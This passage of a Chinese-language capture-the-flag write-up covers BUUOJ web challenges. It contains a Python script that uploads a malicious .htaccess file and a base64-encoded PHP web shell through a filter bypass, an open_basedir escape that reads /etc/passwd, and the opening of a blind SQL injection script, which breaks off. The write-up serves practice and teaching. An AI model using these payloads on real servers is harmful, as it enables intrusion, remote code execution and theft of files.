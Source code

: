 然后上传我们的shell

```python
import requests
import base64

url = "http://635d1ee9-d566-41ce-8e6b-037abd89affe.node3.buuoj.cn"
payload = "/?_=${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=get_the_flag"

htaccess = """
#define width 1
#define height 1
AddType application/x-httpd-php .eki
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.eki"
"""

files = [('file',('.htaccess',htaccess,'image/jpeg'))]

data = {"upload":"Submit"}

r = requests.post(url=url+payload, data=data, files=files)
print(r.text) 

shell = b"GIF89a"+b"00"+base64.b64encode("<?php eval($_REQUEST['eki']);?>")#防止污染+00隔断

files = [('file',('shell.eki',shell,'image/jpeg'))]

r = requests.post(url=url+payload, data=data, files=files)
print(r.text) 
```

连上蚁剑发现只能访问/html下的文件

估计是**`open_basedir`**的问题

可以参考这个POC

```
mkdir("/tmp/test");chdir('/tmp/test/');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(file_get_contents("/etc/passwd"));
```

拿到根目录下的flag,

但是根据html下的提示

预期解是通过攻击php-fpm的unix套接字来进行绕过openbase_dir和绕过disable_function

这里可利用大佬写好的脚本（见参考资料）跑

但是好像buuoj上复现不出来....

## Web4

首先是一个盲注

```python
#coding=utf-8
import requests
import json
import time
import string


def str2hex(s):
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])

url = """http://9c6b7c75-a61d-42ca-be00-d26eb3238bad.node3.buuoj.cn/index.php?r=Login/Login"""
sql = "select flag from flag"
```